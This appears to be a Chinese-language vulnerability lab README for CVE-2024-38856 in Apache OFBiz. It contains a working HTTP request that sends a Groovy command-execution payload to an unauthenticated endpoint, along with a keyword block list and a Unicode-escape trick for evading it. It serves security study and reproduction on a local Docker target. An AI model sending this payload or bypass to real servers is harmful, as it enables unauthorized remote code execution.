

# Apache OFBiz 身份验证绕过导致远程代码执行 (CVE-2024-38856)

Apache OFBiz 是一个开源的企业资源规划（ERP）系统。它提供了一套企业应用程序，用于集成和自动化企业的许多业务流程。

这个漏洞是由于对 [CVE-2023-51467](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-51467) 的不完全修复而产生的。在 Apache OFBiz 18.12.11 版本中，开发人员认为他们已经修复了该漏洞，但实际上他们只解决了其中一种利用方法。Groovy 表达式注入仍然存在，允许未经授权的用户在服务器上执行任意命令。

References:

- <https://github.com/apache/ofbiz-framework/commit/31d8d7>
- <https://forum.butian.net/article/524>
- <https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz>

## 漏洞环境

执行如下命令启动一个Apache OfBiz 18.12.10服务器：

```
docker compose up -d
```

在等待数分钟后，访问`https://localhost:8443/accounting`查看到登录页面，说明环境已启动成功。

## 漏洞复现

直接发送如下请求即可使用Groovy脚本执行`id`命令：

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```



值得注意的是，Apache Ofbiz限制了如下一些关键词的使用，我们可以通过Unicode编码来绕过这个限制，比如`\u0065xecute`：

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```
